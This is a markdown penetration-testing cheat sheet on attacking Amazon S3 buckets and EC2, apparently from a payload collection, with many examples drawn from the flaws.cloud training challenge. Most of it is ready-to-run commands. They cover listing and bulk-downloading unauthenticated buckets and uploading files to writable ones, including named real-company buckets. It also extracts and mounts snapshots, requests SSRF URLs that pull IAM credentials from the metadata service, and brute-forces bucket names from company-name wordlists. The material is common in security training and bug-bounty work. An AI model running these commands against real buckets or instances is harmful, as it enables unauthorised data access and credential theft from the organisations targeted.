 # Amazon Bucket S3 AWS

## Tools

- [Pacu - The AWS exploitation framework, designed for testing the security of Amazon Web Services environments](https://github.com/RhinoSecurityLabs/pacu)


## AWS Configuration

Prerequisites, at least you need awscli

```bash
sudo apt install awscli
```

You can get your credential here https://console.aws.amazon.com/iam/home?#/security_credential
but you need an aws account, free tier account : https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free_np/

```javascript
aws configure
AWSAccessKeyId=[ENTER HERE YOUR KEY]
AWSSecretKey=[ENTER HERE YOUR KEY]
```

```javascript
aws configure --profile nameofprofile
```

then you can use *--profile nameofprofile* in the aws command

## Open Bucket

By default the name of Amazon Bucket are like http://s3.amazonaws.com/[bucket_name]/, you can browse open buckets if you know their names

```bash
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
http://flaws.cloud.s3.amazonaws.com/
```

Their names are also listed if the listing is enabled.

```xml
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
<Name>adobe-REDACTED-REDACTED-REDACTED</Name>
```

Alternatively you can extract the name of inside-site s3 bucket with `%C0`. (Trick from https://twitter.com/0xmdv/status/1065581916437585920)

```xml
http://example.com/resources/id%C0

eg: http://redacted/avatar/123%C0
```

## Basic test - Listing the files

```bash
aws s3 ls s3://targetbucket --no-sign-request --region insert-region-here
aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2
```

You can get the region with a dig and nslookup

```bash
$ dig flaws.cloud
;; ANSWER SECTION:
flaws.cloud.    5    IN    A    52.218.192.11

$ nslookup 52.218.192.11
Non-authoritative answer:
11.192.218.52.in-addr.arpa name = s3-website-us-west-2.amazonaws.com.
```

## Move a file into the bucket

```bash
aws s3 cp local.txt s3://some-bucket/remote.txt --acl authenticated-read
aws s3 cp login.html s3://$bucketName --grants read=uri=http://acs.amazonaws.com/groups/global/AllUsers
```

```bash
aws s3 mv test.txt s3://hackerone.marketing
FAIL : "move failed: ./test.txt to s3://hackerone.marketing/test.txt A client error (AccessDenied) occurred when calling the PutObject operation: Access Denied."

aws s3 mv test.txt s3://hackerone.files
SUCCESS : "move: ./test.txt to s3://hackerone.files/test.txt"
```

## Download every things (in an open bucket)

```powershell
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
```

## Check bucket disk size (authenticated) use, --no-sign for un-authenticated 

```powershell
aws s3 ls s3://<bucketname> --recursive  | grep -v -E "(Bucket: |Prefix: |LastWriteTime|^$|--)" | awk 'BEGIN {total=0}{total+=$3}END{print total/1024/1024" MB"}'
```

## AWS - Extract Backup

```powershell
aws --profile flaws sts get-caller-identity
"Account": "XXXX26262029",

aws --profile flaws  ec2 describe-snapshots --owner-id XXXX26262029 --region us-west-2    
"SnapshotId": "snap-XXXX342abd1bdcb89",

Create a volume using snapshot
aws --profile swk ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-XXXX342abd1bdcb89
In Aws Console -> EC2 -> New Ubuntu
chmod 400 YOUR_KEY.pem
ssh -i YOUR_KEY.pem  ubuntu@ec2-XXX-XXX-XXX-XXX.us-east-2.compute.amazonaws.com

Mount the volume
lsblk
sudo file -s /dev/xvda1
sudo mount /dev/xvda1 /mnt
```

## Bucket informations

Amazon exposes an internal service every EC2 instance can query for instance metadata about the host. If you found an SSRF vulnerability that runs on EC2, try requesting :

```powershell
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE will return the AccessKeyID, SecretAccessKey, and Token
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
```

For example with a proxy : http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/

## Bucket Finder

A cool tool that will search for readable buckets and list all the files in them. It can also be used to quickly find buckets that exist but deny access to listing files.

```powershell
wget https://digi.ninja/files/bucket_finder_1.1.tar.bz2 -O bucket_finder_1.1.tar.bz2
./bucket_finder.rb my_words
./bucket_finder.rb --region ie my_words
	US Standard         = http://s3.amazonaws.com
	Ireland             = http://s3-eu-west-1.amazonaws.com
	Northern California = http://s3-us-west-1.amazonaws.com
	Singapore           = http://s3-ap-southeast-1.amazonaws.com
	Tokyo               = http://s3-ap-northeast-1.amazonaws.com

./bucket_finder.rb --download --region ie my_words
./bucket_finder.rb --log-file bucket.out my_words
```

Use a custom wordlist for the bucket finder, can be created with

```powershell
List of Fortune1000 company names with permutations on .com, -backup, -media. For example, walmart becomes walmart, walmart.com, walmart-backup, walmart-media.
List of the top Alexa 100,000 sites with permutations on the TLD and www. For example, walmart.com becomes www.walmart.com, www.walmart.net, walmart.com, and walmart.
```

## References

* https://community.rapid7.com/community/infosec/blog/2013/03/27/1951-open-s3-buckets
* https://digi.ninja/projects/bucket_finder.php
* [Bug Bounty Survey - AWS Basic test](https://twitter.com/bugbsurveys/status/859389553211297792)
* [FlAWS.cloud Challenge based on AWS vulnerabilities](http://flaws.cloud/)
